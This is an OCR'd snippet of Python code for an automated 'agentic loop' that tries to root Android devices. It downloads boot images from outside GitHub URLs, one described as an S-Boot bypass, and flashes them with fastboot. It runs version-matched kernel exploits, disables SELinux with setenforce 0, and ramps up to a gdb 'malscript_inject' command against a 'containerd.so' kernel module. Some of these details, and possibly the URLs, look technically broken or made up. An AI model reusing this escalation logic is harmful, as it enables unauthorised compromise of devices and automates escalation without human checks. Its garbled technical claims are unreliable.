 ```python
    boot_check = subprocess.run("ls /dev/block/by-name/boot", shell=True, capture_output=True)
    if boot_check.returncode != 0:  # No boot.img
        log("warn", 0, {}, "NO_BOOT_IMG", "Fetching aarch64 mirror; flashing rejected? Fallback to chroot patch.")
        mirrors = [
            "https://github.com/cirosantilli/linux-kernel-module-cheat/raw/master/boot-aarch64.img",  # Debuggable kernel w/ GDB hooks
            "https://github.com/Akipe/awesome-android-aosp/raw/main/exploits/s-boot-patched.img"  # S-Boot bypass for Samsung-like
        ]
        for mirror in mirrors[:2]:  # Try 2 min
            try:
                subprocess.run(f"wget {mirror} -O /sdcard/boot.img; fastboot flash boot /sdcard/boot.img", shell=True, check=True)
                log("success", 0, {}, "BOOT_MIRROR_FLASH", f"Patched via {mirror}")
                return f"magiskboot --patch-boot /sdcard/boot.img; fastboot boot /sdcard/boot.img"  # Magisk playbook w/ mirror
            except:
                pass  # Stubborn reject → wheel
        log("error", 0, {}, "BOOT_FLASH_REJECT", "All mirrors failed; escalate to wheel.")
    
    target_exploit = EXPLOIT_MIRRORS.get(kernel_ver, None)
    if target_exploit:
        log("info", 0, {}, "EASY_PICKINGS", f"Vuln kernel {kernel_ver}: Trying {target_exploit}")
        exit_code, _ = run_command(target_exploit, "termux_shell", "base", 1)  # Low esc
        if exit_code == 0 and is_root_achieved():
            log("success", 0, {}, "TARGET_EXPLOIT_WIN", "Easy pickings rooted.")
            return None  # Done
    return None  # No easy → wheel
```

#### Insert 2: Smart Escalation Bias in Agentic Loop (Replace reflect() in bot.py)
Bias wheel toward low-escalation sneaks first (SELinux permissive probes), ramp to high (containerd malscript via gdb debugger walk-by). Uses probe data to prioritize (e.g., if kernel vuln partial, chain to it).

```python
def reflect(prior_outcome: str, prior_combo: Dict, env_data: Dict) -> Dict[str, float]:
    """Mirror: Critique & score. Bias: Low esc (SELinux sneak) → high (containerd malscript debugger)."""
    score = 0.5
    if "error" in prior_outcome.lower(): score -= 0.2
    if prior_combo["escalation"] <= 2: score += 0.3  # Favor sneaks: permissive probes first
    if "selinux" in prior_outcome:  # Detected denial
        prior_combo["escalation"] = 3  # Mutate: Retry loop w/ setenforce 0
    if env_data.get("kernel"):  # Chain to probe
        kernel_ver = re.search(r'(\d+\.\d+)', env_data["kernel"]).group(1)
        if "6.6" in kernel_ver and prior_combo["category"] == 6: score += 0.4  # Boost exploit cat
    
    # High Esc Ramp: If <0.3 after 10 spins, go nuclear
    if prior_combo["escalation"] >= 5:
        prior_combo["cmd"] = "gdb -q --batch -ex 'set confirm off' -ex 'file /lib/modules/$(uname -r)/kernel/drivers/containerd.so' -ex 'run malscript_inject' -ex 'quit'"  # Debugger walk-by in isolated containerd namespace
        score += 0.1  # Last resort bias
    
    return {"next_score": score, "mutate_suggestion": "Escalate SELinux if denied; chain kernel probe."}
```
